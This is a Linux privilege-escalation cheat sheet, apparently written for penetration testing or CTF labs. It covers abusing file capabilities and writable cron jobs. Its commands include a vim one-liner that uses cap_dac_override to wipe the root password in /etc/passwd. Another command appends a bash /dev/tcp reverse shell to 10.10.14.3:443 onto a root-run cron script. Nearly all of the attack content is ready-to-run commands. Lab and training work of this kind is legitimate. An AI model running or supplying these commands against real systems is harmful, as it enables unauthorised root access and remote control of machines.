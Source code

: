 # Capabilities

Linux capabilities provide fine-grained privilege control. Misconfigured capabilities can be exploited for privilege escalation.

## Enumerating Capabilities
- **Find Capabilities**: Lists all binaries with set capabilities in system directories.  
  `find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \; 2>/dev/null`

## Capability Exploitation
- **Check Binary Capabilities**: Verifies specific binary has exploitable capabilities.  
  `getcap /usr/bin/vim.basic`
- **Vim DAC Override**: Uses vim's cap_dac_override to edit protected files.  
  `/usr/bin/vim.basic /etc/passwd`
- **Non-Interactive Edit**: Modifies /etc/passwd non-interactively to remove root password.  
  `echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd`
- **Verify Password Removal**: Confirms root account has no password set.  
  `cat /etc/passwd | head -n1`

# Cron Job Abuse

Cron jobs execute scheduled tasks automatically. World-writable cron scripts running as root can be abused by appending malicious commands like reverse shells.

## Cron Enumeration
- **World Writable Files**: Finds writable files that may be cron scripts running as root.  
  `find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null`
- **Cron Directories**: Lists contents of cron directories for writable scripts.  
  `ls -la /etc/cron.d /etc/cron.daily /etc/cron.hourly /etc/cron.weekly`
- **User Crontabs**: Displays current user's scheduled cron jobs.  
  `crontab -l`
- **System Crontabs**: Shows system-wide cron jobs and schedules.  
  `cat /etc/crontab`

## Process Monitoring
- **PSPY Monitoring**: Monitors running processes and cron job execution without root privileges.  
  `./pspy64 -pf -i 1000`

## Cron Script Abuse
- **View Cron Script**: Examines writable cron script contents before modification.  
  `cat /dmz-backups/backup.sh`
- **Backup Original**: Creates backup of original cron script before modification.  
  `cp /dmz-backups/backup.sh /tmp/backup.sh.bak`
- **Append Reverse Shell**: Adds reverse shell command to end of cron script.  
  `echo 'bash -i >& /dev/tcp/10.10.14.3/443 0>&1' >> /dmz-backups/backup.sh`
- **Verify Modification**: Confirms malicious command was added to cron script.  
  `tail -5 /dmz-backups/backup.sh`
